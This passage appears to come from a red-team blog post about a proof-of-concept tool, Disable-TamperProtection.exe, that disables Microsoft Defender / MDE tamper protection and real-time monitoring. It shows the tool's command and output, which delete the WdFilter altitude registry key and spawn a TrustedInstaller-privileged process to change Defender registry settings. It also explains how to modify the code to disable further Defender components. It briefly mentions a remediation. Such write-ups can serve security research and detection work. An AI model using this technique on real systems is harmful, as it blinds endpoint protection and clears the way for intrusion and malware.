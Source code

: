 3. Disable Defender / MDE:

```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 3
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 000000000000011C
[!] Spawning registry with TrustedInstaller privileges to Disable 'RealtimeMonitoring' regkey.
[+] To disable other components of defender check source.
[+] Created process ID: 8040 and assigned additional token privileges.
```

*NOTE: Even though Tamper Protection is effectively disabled now, it takes a reboot to render the same change in the "Security Settings" GUI Prompt.*

The POC manages to semi-permanently disable Real time monitoring (gray out) after Tamper Protection is disabled. This can be remediated by the mentioned method in this blog.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020240311143923.png)

The CodeBase in the Disable-TamperProtection POC can be altered to disable specific or all components of Defender / MDE. These have included as comments in the POC at line 338. 

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020231227155027.png)

An example to chain / add parts to disable more than one component together is yet again showcased in comments at line 382. Uncomment these lines and replace in accordance.
